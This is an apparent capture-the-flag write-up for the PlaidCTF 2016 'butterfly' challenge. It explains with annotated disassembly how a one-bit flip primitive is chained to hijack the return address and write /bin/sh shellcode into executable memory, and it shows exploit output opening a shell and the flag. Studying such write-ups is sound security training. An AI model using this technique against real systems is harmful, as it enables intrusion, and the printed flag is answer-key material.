 
##  PlaidCTF 2016 - butterfly (Pwn 150)
##### 15/04 - 17/02/2016 (48hr)
___
### Description: 
Sometimes the universe smiles upon you. And sometimes, well, you just have to roll 
your sleeves up and do things yourself. Running at butterfly.pwning.xxx:9999
___
### Solution
Binary was fairly easy to reverse. There's only the main() function:

```assembly
.text:004007A9 E8 72 FE FF FF        call    _setbuf
.text:004007AE BF 14 09 40 00        mov     edi, offset s                   ; "THOU ART GOD, "...
.text:004007B3 E8 48 FE FF FF        call    _puts
.text:004007B8 48 8B 15 71 05 20+    mov     rdx, cs:stdin@@GLIBC_2_2_5      ; stream
.text:004007BF 48 8D 3C 24           lea     rdi, [rsp+68h+var_68]           ; s
.text:004007C3 BE 32 00 00 00        mov     esi, 32h                        ; n
.text:004007C8 E8 73 FE FF FF        call    _fgets
.text:004007CD 41 BE 01 00 00 00     mov     r14d, 1
.text:004007D3 48 85 C0              test    rax, rax
.text:004007D6 74 75                 jz      short CLEANUP_40084D
.text:004007D8 48 8D 3C 24           lea     rdi, [rsp+68h+var_68]           ; nptr
.text:004007DC 31 F6                 xor     esi, esi                        ; endptr
.text:004007DE 31 D2                 xor     edx, edx                        ; base
.text:004007E0 E8 6B FE FF FF        call    _strtol                         ; base is zero
.text:004007E5 48 89 C3              mov     rbx, rax
.text:004007E8 48 89 DD              mov     rbp, rbx
.text:004007EB 48 C1 FD 03           sar     rbp, 3                          ; magic >> 3 (sign extend)
.text:004007EF 49 89 EF              mov     r15, rbp
.text:004007F2 49 81 E7 00 F0 FF+    and     r15, 0FFFFFFFFFFFFF000h         ; make address multiple of a page (otherwise mprotect will fail)
.text:004007F9 BE 00 10 00 00        mov     esi, 1000h                      ; len
.text:004007FE BA 07 00 00 00        mov     edx, 7                          ; prot
.text:00400803 4C 89 FF              mov     rdi, r15                        ; addr
.text:00400806 E8 55 FE FF FF        call    _mprotect
.text:0040080B 85 C0                 test    eax, eax
.text:0040080D 75 5C                 jnz     short MPROTECT_1_FAIL_40086B
.text:0040080F 80 E3 07              and     bl, 7                           ; get 3 LSBits of magic
.text:00400812 41 BE 01 00 00 00     mov     r14d, 1
.text:00400818 B8 01 00 00 00        mov     eax, 1
.text:0040081D 88 D9                 mov     cl, bl
.text:0040081F D3 E0                 shl     eax, cl                         ; and use them as a mask
.text:00400821 0F B6 4D 00           movzx   ecx, byte ptr [rbp+0]
.text:00400825 31 C1                 xor     ecx, eax
.text:00400827 88 4D 00              mov     [rbp+0], cl                     ; *(magic >> 3) ^= (1 << (magic & 7)) (FLIP 1 BIT)
.text:0040082A BE 00 10 00 00        mov     esi, 1000h                      ; len
.text:0040082F BA 05 00 00 00        mov     edx, 5                          ; prot
.text:00400834 4C 89 FF              mov     rdi, r15                        ; addr
.text:00400837 E8 24 FE FF FF        call    _mprotect                       ; make it R+X again
.text:0040083C 85 C0                 test    eax, eax
.text:0040083E 75 37                 jnz     short MPROTECT_2_FAIL_400877
.text:00400840 BF 56 09 40 00        mov     edi, offset aWasItWorthIt??     ; "WAS IT WORTH IT???"
.text:00400845 E8 B6 FD FF FF        call    _puts
.text:0040084A 45 31 F6              xor     r14d, r14d
.text:0040084D
.text:0040084D                   CLEANUP_40084D:                             ; CODE XREF: main+4Ej
.text:0040084D                                                               ; main+EDj ...
.text:0040084D 64 48 8B 04 25 28+    mov     rax, fs:28h
.text:00400856 48 3B 44 24 40        cmp     rax, [rsp+68h+var_28]
.text:0040085B 75 26                 jnz     short CANARY_FAILED_400883
.text:0040085D 44 89 F0              mov     eax, r14d
.text:00400860 48 83 C4 48           add     rsp, 48h
.text:00400864 5B                    pop     rbx
.text:00400865 41 5E                 pop     r14
.text:00400867 41 5F                 pop     r15
.text:00400869 5D                    pop     rbp
.text:0040086A C3                    retn
```

Here, we can flip 1 bit from an arbitrary memory location. Obviously 1 bit is not enough, but
if we do this multiple times, we can write a shellcode (setbuf() allows us to use a /bin/sh 
shellcode).

The first important thing is here:
```assembly
	.text:004007C3 BE 32 00 00 00        mov     esi, 32h                        ; n
	.text:004007C8 E8 73 FE FF FF        call    _fgets
```

This means that we can write 50 bytes on the stack. atoi() will deal only with the first part and
will ingore the rest so we're ok. The second important part is this:
```assembly
	.text:0040085B 75 26                 jnz     short CANARY_FAILED_400883
	.text:0040085D 44 89 F0              mov     eax, r14d
	.text:00400860 48 83 C4 48           add     rsp, 48h
```
Here, after the canary is checked, we delete the stack frame. If we choose to flip 7th bit from
address 0x00400864, then the new address will be:
```
	.text:00400860 48 83 C4 08           add     rsp, 8
```	
The stack pointer won't be alinged anymore and it will point at a higher location, inside the 
gets() buffer. This means that we can control the return address. We choose to return at the
beginning of main() and repeat the same attack. However that instruction will still be 
(add rsp, 8), so we can flip another bit and return to the main() again.

The plan is to find a safe location (X bit enabled) and place our shellcode there. Then instead
of returning to main we'll return to our shellcode. Let's place the shellcode at __libc_csu_init.
We read the original contents of from this address and we XOR them with the desired shellcode.
Then when we'll flip the bits the original contents will be canceled (double XOR) and the shellcode
will left.

The source code is shown at butterfly_expl.py. The flag is: **PCTF{b1t_fl1ps_4r3_0P_r1t3}**

```
root@xrysa:~/ctf/plaidctf# ./butterfly_expl.py 
	Writing Shellcode byte #1: 01110000 (31)
	Writing Shellcode byte #2: 10100001 (f6)
	Writing Shellcode byte #3: 00001001 (48)
	Writing Shellcode byte #4: 11101101 (bb)
	Writing Shellcode byte #5: 01101110 (2f)
	Writing Shellcode byte #6: 11101011 (62)
	Writing Shellcode byte #7: 10010110 (69)
	Writing Shellcode byte #8: 00101111 (6e)
	Writing Shellcode byte #9: 01111010 (2f)
	Writing Shellcode byte #10: 01101110 (2f)
	Writing Shellcode byte #11: 00100111 (73)
	Writing Shellcode byte #12: 00100100 (68)
	Writing Shellcode byte #13: 11011011 (56)
	Writing Shellcode byte #14: 01110110 (53)
	Writing Shellcode byte #15: 01000010 (54)
	Writing Shellcode byte #16: 01011101 (5f)
	Writing Shellcode byte #17: 01001010 (6a)
	Writing Shellcode byte #18: 00111011 (3b)
	Writing Shellcode byte #19: 00001101 (58)
	Writing Shellcode byte #20: 01111001 (31)
	Writing Shellcode byte #21: 01011111 (d2)
	Writing Shellcode byte #22: 00100010 (0f)
	Writing Shellcode byte #23: 00010011 (05)
	Returning to shellcode...
	*** Opening Shell ***
		id
			uid=1001(problem) gid=1001(problem) groups=1001(problem)
		ls -la
			total 28
			drwxr-x--- 2 root problem 4096 Apr 15 21:49 .
			drwxr-xr-x 4 root root    4096 Apr 15 17:50 ..
			-rwxr-xr-x 1 root root    8328 Apr 15 18:26 butterfly
			-r--r----- 1 root problem   28 Apr 15 18:28 flag
			-rwxr-xr-x 1 root root     219 Apr 15 21:49 wrapper
		cat flag
			PCTF{b1t_fl1ps_4r3_0P_r1t3}
		cat wrapper
			#!/bin/bash
			DIR="$( cd "$( dirname "${BASH_SOURCE[0]}" )" && pwd )"
			cd $DIR
			ulimit -S -c 0 -t 20 -f 1000000 -v 1000000
			ulimit -H -c 0 -t 20 -f 1000000 -v 1000000
			exec nice -n 15 timeout -s 9 300 /home/problem/butterfly
		exit
	*** Connection closed by remote host ***
```
___
